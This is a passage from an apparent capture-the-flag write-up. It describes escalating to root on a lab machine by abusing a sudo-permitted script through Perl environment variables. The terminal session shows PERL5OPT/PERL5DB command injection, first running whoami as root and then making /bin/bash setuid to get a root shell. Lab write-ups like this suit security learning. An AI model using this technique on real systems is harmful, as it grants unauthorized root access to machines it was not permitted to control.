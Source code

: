 ```perl
#!/usr/bin/perl -w
# $Id: /xmltwig/trunk/tools/xml_pp/xml_pp 32 2008-01-18T13:11:52.128782Z mrodrigu  $
use strict;

use XML::Twig;
use File::Temp qw/tempfile/;
use File::Basename qw/dirname/;

my @styles= XML::Twig->_pretty_print_styles; # from XML::Twig
my $styles= join '|', @styles;               # for usage
my %styles= map { $_ => 1} @styles;          # to check option

my $DEFAULT_STYLE= 'indented';

my $USAGE= "usage: $0 [-v] [-i<extension>] [-s ($styles)] [-p <tag(s)>] [-e <encoding>] [-l] [-f <file>] [<files>]";

# because of the -i.bak option I don't think I can use one of the core
# option processing modules, so it's custom handling and no clusterization :--(
```

It is odd that this runs with perl. [https://www.exploit-db.com/exploits/39702](https://www.exploit-db.com/exploits/39702) is an exploit allowing local privesc using a flaw within exim. In this instance we are running this with sudo and can bypass needing a vulnerable version of exim. perl_startup as a configuration parameter allows the injection of commands. 


```bash
jack@clicker:/tmp$ sudo PERL5OPT=-d PERL5DB='exec "whoami > /tmp/whoami"' /opt/monitor.sh
Statement unlikely to be reached at /usr/bin/xml_pp line 9.
	(Maybe you meant system() when you said exec()?)
jack@clicker:/tmp$ ls
diag.backup
root.pm
systemd-private-6b70c88545da4dc9bce7b41f791f825f-apache2.service-d1s09J
systemd-private-6b70c88545da4dc9bce7b41f791f825f-ModemManager.service-acnzub
systemd-private-6b70c88545da4dc9bce7b41f791f825f-systemd-logind.service-P5dluN
systemd-private-6b70c88545da4dc9bce7b41f791f825f-systemd-resolved.service-27kfwV
systemd-private-6b70c88545da4dc9bce7b41f791f825f-systemd-timesyncd.service-QB4tgQ
vmware-root_810-2957517899
whoami
jack@clicker:/tmp$ cat whoami
root
jack@clicker:/tmp$ sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
Statement unlikely to be reached at /usr/bin/xml_pp line 9.
	(Maybe you meant system() when you said exec()?)
jack@clicker:/tmp$ bash -p
bash-5.1# cat /root/root.txt
b94d39a802b--------------------
```

